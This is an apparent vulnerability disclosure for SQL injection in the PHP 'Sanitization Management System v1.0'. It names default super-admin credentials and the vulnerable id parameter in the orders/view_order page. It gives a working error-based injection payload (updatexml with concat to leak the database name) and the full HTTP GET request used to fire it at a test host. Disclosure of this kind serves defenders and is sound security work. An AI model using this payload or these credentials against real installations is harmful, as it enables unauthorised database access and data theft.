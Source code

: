 # Sanitization Management System v1.0 by oretnom23 has SQL injection

BUG_Author: daytime

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15770/sanitization-management-system-project-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Execute the following statement to create the "order_list" table

```sql
CREATE TABLE `order_list` (
  `id` int(11) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
COMMIT;
```

Vulnerability File: /php-sms/admin/?page=orders/view_order&id=

Vulnerability location: /php-sms/admin/?page=orders/view_order&id=, id

dbname =sms_db,length=6

[+] Payload:  /php-sms/admin/?page=orders/view_order&id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+  // Leak place ---> id


```sql
GET /php-sms/admin/?page=orders/view_order&id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=3puonr8mf2gr4m6iivf71mhjtq
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/195979010-dfe9a75e-7725-4cf2-a477-095b17f48153.png)
